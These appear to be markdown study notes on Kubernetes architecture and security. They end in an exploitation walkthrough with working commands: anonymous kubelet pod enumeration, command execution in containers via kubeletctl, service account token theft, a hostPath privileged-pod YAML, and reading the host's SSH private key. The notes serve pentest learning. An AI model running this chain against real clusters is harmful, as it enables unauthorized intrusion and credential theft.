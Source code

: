 
### **Overview**

- _Kubernetes_ (K8s): **Open-source container orchestration platform** developed by Google.
- Designed for **automated deployment, scaling, and management** of containerized applications.
- Donated to _Cloud Native Computing Foundation_.
- Supports:
    - _Microservices_, _cloud-native apps_, _AI/ML workloads_, _edge computing_.
    - _Public cloud_ (GCP, Azure, AWS) and _on-prem_ environments.

---

### **Core Concepts**

- **Pods**: Smallest deployable units, may contain one or more containers.
- **Control Plane (Master Node)**:
    - Manages and maintains cluster state.
    - Components:
        - _etcd_ (2379, 2380): Key-value store for cluster data.
        - _API server_ (6443): Entry point for commands.
        - _Scheduler_ (10251): Assigns pods to nodes.
        - _Controller Manager_ (10252): Watches for state changes.
        - _Kubelet API_ (10250/10255): Manages node-level operations.

- **Worker Nodes (Minions)**: Execute containerized applications.

---

### **Kubernetes vs Docker**

|Function|Docker|Kubernetes|
|---|---|---|
|Primary|Containerization|Orchestration & management|
|Scaling|Manual (Docker Swarm)|Automatic|
|Networking|Single network|Advanced w/ policies|
|Storage|Volumes|Multiple persistent storage options|

---

## Kubernetes Security


### **Security Domains**

- _Cluster Infrastructure Security_
- _Cluster Configuration Security_
- _Application Security_
- _Data Security_

---

### **Kubernetes API**

- _kube-apiserver_: Handles and validates all RESTful requests.
- Supports operations: `GET`, `POST`, `PUT`, `PATCH`, `DELETE`.
- Central point for both internal and external interaction.
- API resources include: _Pods_, _Services_, _Deployments_, etc.

---

### **Authentication & Authorization**

- **Auth methods**:
    - Client certificates
    - Bearer tokens
    - Authenticating proxy
    - HTTP Basic Auth

- **RBAC (Role-Based Access Control)**:
    - Assigns roles and permissions to users/processes.

- **Anonymous Access**:
    - If enabled, users without credentials may query the API.

---
## Exploitation Techniques


### **Anonymous Kubelet API Enumeration**
```bash
curl https://<IP>:6443 -k
# Result: 403 Forbidden → system:anonymous cannot access
```

### **Pod Enumeration**
```bash
curl https://<IP>:10250/pods -k | jq .
```
- Reveals:
	- Pod names, containers, timestamps
	- Last applied configurations (may leak secrets)
	- Container images & policies

### **kubeletctl Tool**
```bash
kubeletctl -i --server <IP> pods
kubeletctl -i --server <IP> scan rce
kubeletctl -i --server <IP> exec "id" -p nginx -c nginx
```
- Lists pods and containers
- Scans for RCE vulnerabilities
- Executes commands inside containers

---

### **Extracting Service Account Credentials**
```bash
kubeletctl --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx > k8.token
kubeletctl --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx > ca.crt
```

---

### **Check Token Privileges**
```bash
export token=$(cat k8.token)
kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 auth can-i --list
```
- Verifies permissions such as `get`, `create`, `list` on pods

---

### **Privilege Escalation via Pod Creation**

- YAML to mount host `/` into pod:
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 apply -f privesc.yaml
```

---

### **Accessing Host from Pod**
```bash
kubeletctl --server <IP> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```
- Reveals host's private SSH key

---

## Summary

- Kubernetes exposes various attack surfaces through misconfigured APIs and excessive permissions.
- Gaining access to Kubelet or API server, especially with root in a pod, can lead to _full cluster compromise_.
- Tools like `kubeletctl`, `kubectl`, and `curl` are key to enumeration and exploitation.